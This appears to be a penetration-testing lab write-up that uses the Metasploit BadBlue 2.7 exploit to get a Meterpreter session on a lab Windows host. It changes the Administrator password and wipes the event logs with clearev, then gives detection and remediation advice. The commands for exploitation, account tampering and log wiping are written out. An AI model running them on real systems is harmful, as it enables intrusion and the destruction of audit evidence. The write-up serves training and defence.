










# Clearing Windows Event Logs

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (10.2.18.122) — Windows Server 2008 R2–2012, BadBlue 2.7<br>
**Objective:** Exploit the application and clear the Windows Event logs.

## 1. Executive Summary

After exploiting **BadBlue 2.7** for a Meterpreter session, we show how an attacker action
(changing the Administrator password) is recorded in the Windows Event Viewer, then wipe the
logs with Meterpreter's `clearev` command — a classic anti-forensics step.

## 2. Recon

```bash
ping -c 4 demo.ine.local
db_nmap -sV 10.2.18.122
services
```







Port 80 runs **BadBlue httpd 2.7**.



## 3. Exploitation (BadBlue)

```bash
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.18.122
exploit
```





## 4. Generating an Auditable Event

Changing the Administrator password (an action the Security log records).

```cmd
shell
net user administrator <newpassword>
```





## 5. Clearing the Logs

```bash
clearev
```

`clearev` wipes the Application, System and Security logs.

```
[*] Wiping 255 records from Application...
[*] Wiping 501 records from System...
[*] Wiping 15901 records from Security...
```





## 6. Detection & Remediation Recommendations

1. **Forward logs off-host** (Windows Event Forwarding / SIEM) in real time — `clearev`
   can't erase what already left the machine.
2. **Alert on log clears** — Event ID 1102 (Security log cleared) and 104 (System log
   cleared) are high-fidelity indicators.
3. **Restrict admin/SYSTEM access** (least privilege, Credential Guard) so the attacker
   can't reach `clearev` in the first place.
4. **Patch/replace BadBlue** — it is remotely exploitable and unmaintained.
